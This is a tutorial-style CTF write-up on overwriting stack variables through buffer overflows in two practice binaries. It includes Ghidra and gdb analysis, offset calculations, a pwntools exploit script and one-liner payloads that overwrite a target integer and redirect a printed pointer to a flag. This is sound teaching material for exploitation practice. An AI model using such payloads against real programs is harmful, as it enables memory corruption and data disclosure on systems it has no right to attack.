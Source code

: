 # Variables

## Example 1 - Overwrite a variable

<figure><img src="../../../.gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>

Here we can see that according to Ghidra input is stored at offset `-0x38`. We can see that target is stored at offset `-0x24`. This means that there is a `0x14` byte difference between the two values.

```
read(0,&input,0x18);
```

Since we can write `0x18` bytes, that means we can fill up the `0x14` byte difference and overwrite four bytes (`0x18 - 0x14 = 4`) of `target`, and since integers are four bytes we can overwrite.

Taking a look at the memory layout in gdb gives us a better description. We set a breakpoint for directly after the `read` call and see what the memory looks like (read the address from ghidra):

```
b *0x4006a5
```

<figure><img src="../../../.gitbook/assets/image (17).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>

Here we can see that our input `15935728` is `0x14` bytes away. When we give the input `00000000000000000000` + p32(`0xcaf3baee`). We need the hex address to be in least endian (least significant byte first) because that is how the elf will read in data, so we have to pack it that way in order for the binary to read it properly:

```
python2 -c 'print "0"*0x14 + "\xee\xba\xf3\xca"' > input
```

{% hint style="warning" %}
\n is 4 bytes
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

With all of that, we can write an exploit for this challenge:

```
from pwn import *

# Establish the target process
target = process('./boi')

# Make the payload
payload = b"0" * 0x14 + p32(0xcaf3baee)

# Send the payload
target.send(payload)

# Drop to an interactive shell so we can interact with our shell
target.interactive()
```

## Example 2 - Overwrite a variable address

&#x20;We can see that with the fgets call, we can input 32 bytes worth of data into `input`. Let's see how many bytes `input` can hold:

```
                             **************************************************************
                             *                          FUNCTION                          *
                             **************************************************************
                             undefined main(undefined1 param_1)
             undefined         AL:1           <RETURN>                                XREF[1]:     0804861d(W)  
             undefined1        Stack[0x4]:1   param_1                                 XREF[1]:     080485bb(*)  
             FILE *            EAX:4          flagFile                                XREF[2]:     0804861d(W),
                                                                                                   08048655(W)  
             char              AL:1           local_EAX_154                           XREF[2]:     08048655(W),
                                                                                                   080486dd(W)  
             int               EAX:4          cmp                                     XREF[1]:     080486dd(W)  
             undefined4        Stack[0x0]:4   local_res0                              XREF[1]:     080485c2(R)  
             undefined4        Stack[-0xc]:4  local_c                                 XREF[1]:     08048704(R)  
             char *            Stack[-0x14]:4 target                                  XREF[2]:     0804860d(W),
                                                                                                   080486ee(W)  
             FILE *            Stack[-0x18]:4 flagHandle                              XREF[3]:     08048625(W),
                                                                                                   08048628(R),
                                                                                                   0804864b(R)  
             char[16]          Stack[-0x28]   vulnBuf                                 XREF[2]:     080486a6(*),
                                                                                                   080486d9(*)  
                             main                                            XREF[4]:     Entry Point(*),
                                                                                          _start:080484d7(*), 0804886c,
                                                                                          080488c8(*)  
        080485bb 8d 4c 24 04     LEA        ECX=>param_1,[ESP + 0x4]
```

So we can see that it can hold 16 bytes worth of data (0x28 - 0x18 = 16). So we effectively have a buffer overflow vulnerability with the fgets call to `input`. However it appears that we can't reach the `eip` register to get RCE. However we can reach `output_message` which is printed with a puts call, right before the function returns. So we can print whatever we want. That makes this code look really helpful:

```
  stream = fopen("flag.txt", "r");
  if ( !stream )
  {
    perror("file open error.\n");
    exit(0);
  }
  if ( !fgets(flag, 48, stream) )
  {
    perror("file read error.\n");
    exit(0);
  }
```

So we can see here that after it opens the `flag.txt` file, it scans in 48 bytes worth of data into `flag`. This is interesting because if we can find the address of `flag`, then we should be able to overwrite the value of `output_message` with that address and then it should print out the contents of `flag`, which should be the flag.

```
  .bss:0804A080 ; char flag[48]
.bss:0804A080 flag            db 30h dup(?)           ; DATA XREF: main+95o
.bss:0804A080 _bss            ends
.bss:0804A080
```

So here we can see that `flag` lives in the bss, with the address `0x0804a080`. There are 20 bytes worth of data between `input` and `output_message` (0x28 - 0x14 = 20). So we can form a payload with 20 null bytes, followed by the address of `flag`:

```
  python -c 'print "\x00"*20 + "\x80\xa0\x04\x08"' | ./just_do_it-56d11d5466611ad671ad47fba3d8bc5a5140046a2a28162eab9c82f98e352afa
Welcome my secret service. Do you know the password?
Input the password.
flag{gottem_boyz}
```
